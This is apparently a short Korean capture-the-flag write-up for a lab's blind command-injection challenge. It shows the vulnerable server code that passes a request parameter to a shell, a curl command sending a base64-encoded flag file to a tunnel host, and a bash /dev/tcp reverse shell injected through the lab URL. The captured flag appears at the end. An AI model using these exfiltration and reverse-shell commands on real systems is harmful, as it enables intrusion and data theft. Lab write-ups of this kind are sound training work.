

## cmdi-1

```bash
cmd = request.args["cmd"]
    subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, text=True)  # 출력 미반환 = Blind
    return "!"
```

입력 한 명령어가 실행은 되지만 웹 서버에 반환하지 않는다는 것을 확인했다.

```bash
curl https://race-plains-disclosure-rights.trycloudflare.com/?d=$(cat /command_injection_flag.txt|base64 -w0)
```

curl 명령어를 던져 봤으나 로그가 남지 않아 리버스셸 방식을 선택하였다.

```bash
http://edu.arang.kr:9206/?cmd=bash -c "bash -i >%26 /dev/tcp/mkybb-49-142-15-32.run.pinggy-free.link/40241 0>%261"
```



cat 명령어를 이용해 flag를 획득 할 수 있다.

flag{6f12d16f718d9efeca7a}
